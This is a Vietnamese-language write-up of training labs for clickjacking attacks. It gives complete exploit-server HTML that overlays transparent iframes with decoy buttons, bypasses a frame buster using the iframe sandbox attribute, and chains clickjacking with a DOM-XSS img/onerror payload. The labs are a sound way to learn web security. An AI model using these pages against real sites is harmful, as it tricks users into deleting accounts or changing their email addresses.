

# Clickjacking

# **Lab: Basic clickjacking with CSRF token protection**

- Thực hiện login với credential `wiener:peter` .
- Điều hướng đến chức năng `My account > Delete account`
    
    
    
- Thực hiện copy URL sau:
    - URL
        
        ```jsx
        <url-lab>/my-account
        ```
        
- Thực hiện thay URL trên vào form sau.
    - FORM
        
        ```jsx
        <!DOCTYPE html>
        <html lang="en">
        
        <head>
            <style>
                #target_website {
                    position: relative;
                    width: 1200px;
                    height: 600px;
                    opacity: 0.5;
                    z-index: 2;
                }
        
                #decoy_website {
                    position: absolute;
            width: 120px; 
            height: 40px;
            top: 530px;  
            left: 45px; 
            z-index: 1;
            background-color: red;
            line-height: 40px;
            text-align: center;
                }
            </style>
        </head>
        
        <body>
            <div id="decoy_website">
        
                Click me!
        
            </div>
            <iframe id="target_website"
                src="<url-lab>/my-account/">
            </iframe>
        </body>
        
        </html>
        ```
        
- Thực hiện cấu hình exploit server như sau:
    - Head
        
        ```jsx
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```jsx
        <!DOCTYPE html>
        <html lang="en">
        
        <head>
            <style>
                #target_website {
                    position: relative;
                    width: 1200px;
                    height: 600px;
                    opacity: 0.5;
                    z-index: 2;
                }
        
                #decoy_website {
                    position: absolute;
            width: 120px; 
            height: 40px;
            top: 530px;  
            left: 45px; 
            z-index: 1;
            background-color: red;
            line-height: 40px;
            text-align: center;
                }
            </style>
        </head>
        
        <body>
            <div id="decoy_website">
        
                Click me!
        
            </div>
            <iframe id="target_website"
                src="<url-lab>/my-account/">
            </iframe>
        </body>
        
        </html>
        ```
        
- Thực hiện view  exploit quan sát thấy nút đã chèn lên hợp lý
    - POC
        
        
        
- Thực hiện `Deliver to victim` . Quan sát thấy giải lab thành công
    
    
    

# **Lab: Clickjacking with form input data prefilled from a URL parameter**

- Thực hiện login bằng credential `wiener:peter`
- Tại đây, điều hướng đến chức năng `My account` và quan sát thấy rằng input value của email được lấy từ param trên URL
    - POC
        
        
        
- Như vậy, thì chúng ta có thể fill form từ url. Tiếp theo đánh lừa người dùng vào click update mail
- Thực hiện config exploit server như sau:
    - Head
        
        ```jsx
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```jsx
        <!DOCTYPE html>
        <html lang="en">
        
        <head>
            <style>
                #target_website {
                    position: relative;
                    width: 1200px;
                    height: 600px;
                    opacity: 0.5;
                    z-index: 2;
                }
        
                #decoy_website {
                    position: absolute;
                    width: 120px;
                    height: 40px;
                    top: 475px;
                    left: 45px;
                    z-index: 1;
                    background-color: red;
                    line-height: 40px;
                    text-align: center;
                }
            </style>
        </head>
        
        <body>
            <div id="decoy_website">
              
                Click me!
        
            </div>
            <iframe id="target_website" src="<url-lab>/my-account/?email=hacker@abc.com">
            </iframe>
        </body>
        
        </html>
        ```
        
- Thực hiện view exploit nhận thấy form đã được tự điền đồng thời cũng đánh lừa người dùng tại button update email
    - POC
        
        
        
- Thực hiện deliver to victim và hoàn thành giải lab.
    - POC
        
        
        

# **Lab: Clickjacking with a frame buster script**

- Thực hiện login với credential `wiener:peter`
- Điều hướng đến chức năng `My account` . Quan sát rằng input value của email được lấy từ param `email`
    - POC
        
        
        
- Tuy nhiên khi thực hiện thêm frame thì không load được lí do là do đoạn script sau:
    - POC
        
        ```jsx
        <script>
        if(top != self) {
            window.addEventListener("DOMContentLoaded", function() {
                document.body.innerHTML = 'This page cannot be framed';
            }, false);
        }
        </script>
        ```
        
        
        
- Tuy nhiên thì `iframe` có attribute cho phép không chạy script nào đó là `sandbox` nhưng đồng thời để thực hiện được action trong frame thì cần thêm `allow-form` cho attribute này. Từ đó có form sau:
    - Form
        
        ```html
        <!DOCTYPE html>
        <html lang="en">
        
        <head>
            <style>
                #target_website {
                    position: relative;
                    width: 1200px;
                    height: 600px;
                    opacity: 0.5;
                    z-index: 2;
                }
        
                #decoy_website {
                    position: absolute;
                    width: 120px;
                    height: 40px;
                    top: 535px;
                    left: 45px;
                    z-index: 1;
                    background-color: red;
                    line-height: 40px;
                    text-align: center;
                }
            </style>
        </head>
        
        <body>
            <div id="decoy_website">
              
                Click me!
        
            </div>
            <iframe sandbox="allow-form"  id="target_website" src="<url-lab>/my-account/?email=hacker122@abc.com">
            </iframe>
        </body>
        
        </html>
        ```
        
- Thực hiện config exploit server như sau
    - Head
        
        ```jsx
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```html
        <!DOCTYPE html>
        <html lang="en">
        
        <head>
            <style>
                #target_website {
                    position: relative;
                    width: 1200px;
                    height: 600px;
                    opacity: 0.5;
                    z-index: 2;
                }
        
                #decoy_website {
                    position: absolute;
                    width: 120px;
                    height: 40px;
                    top: 535px;
                    left: 45px;
                    z-index: 1;
                    background-color: red;
                    line-height: 40px;
                    text-align: center;
                }
            </style>
        </head>
        
        <body>
            <div id="decoy_website">
              
                Click me!
        
            </div>
            <iframe sandbox="allow-form"  id="target_website" src="<url-lab>/my-account/?email=hacker122@abc.com">
            </iframe>
        </body>
        
        </html>
        ```
        
- View exploit thấy web đã đè nút lên button
    
    
    
- Thực hiện `Deliver to victim` . Quan sát thấy solve lab thành công
    
    
    

# **Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS**

- Thực hiện điều hướng đến chức năng `Submit feedback`. Tại đây, thực hiện submit feedback
    
    
    
- Quan sát rằng, khi chèn payload kiểm tra cùng với đọc code thì thấy ở đây có DOM-XSS
    - POC
        
        
        
        - Code
            
            ```c
            function displayFeedbackMessage(name) {
            return function() {
                var feedbackResult = document.getElementById("feedbackResult");
                if (this.status === 200) {
                    feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
                    feedbackForm.reset();
                } else {
                    feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
                }
            }
            ```
            
- Thực hiện tạo và gửi response HTML form sau cho victim bằng exploit server
    - Head
        
        ```c
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```c
        <style>
        iframe {
        position:relative;
        width:1200px;
        height:1200px;
        opacity: 0.0000001;
        z-index: 2;
        }
        div {
        
        		position:absolute;
        		top:820px;
        		left:35px;
        display:flex;
            justify-content:center;
            align-items:center;     
            text-align:center;
        width:150px;
        height:40px;
        background-color:red;
        z-index: 1;
        }
        </style>
        <div>Click here</div>
        <iframe src="<url-lab>/feedback?name=%3Cimg src=x+onerror%3D%22print%28%29%22%2F%3E&email=a%40a.com&subject=abc&message=abc">
        ```
        
- Thực hiện gửi cho victim, quan sát thấy solve lab thành công
    
    
    

# **Lab: Multistep clickjacking**

- Thực hiện login với tài khoản `wiener:peter`  . Điều hướng đến chức năng `My account > Delete account`
    
    
    
- Quan sát thấy có một trang để xác nhận yêu cầu xóa tài khoản người dùng
    
    
    
- Thực hiện gửi form nhưng tạo 2 nút click để lừa người dùng nhấn. Sau đó dùng exploit server để gửi. Exploit server được config như sau:
    - Head
        
        ```html
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```html
        <style>
        iframe{
        width:1000px;
        height:1000px;
        position:relative;
        z-index:3;
        opacity:0.5;
        
        }
        .class1{
        position: absolute;
        top:500px;
        left:30px;
        z-index:2;
        width:150px;
        height:50px;
        background-color:red;
        display:flex;
            justify-content:center;
            align-items:center;     
            text-align:center;
        }
        .class2{
        position: absolute;
        top:300px;
        left:200px;
        z-index:2;
        width:120px;
        height:50px;
        background-color:red;
        display:flex;
            justify-content:center;
            align-items:center;     
            text-align:center;
        }
        </style>
        <div class="class1">click me first</div>
        <div class="class2">click me second</div>
        <iframe src="<url-lab/my-account"></iframe>
        ```
        
- Thực hiện view exploit và nhận thấy đã thành công render button đè lên button của web vuln
    - POC
        
        
        
        
        
- Thực hiện `Deliver to victim`. Quan sát thấy solve lab thành công
    
    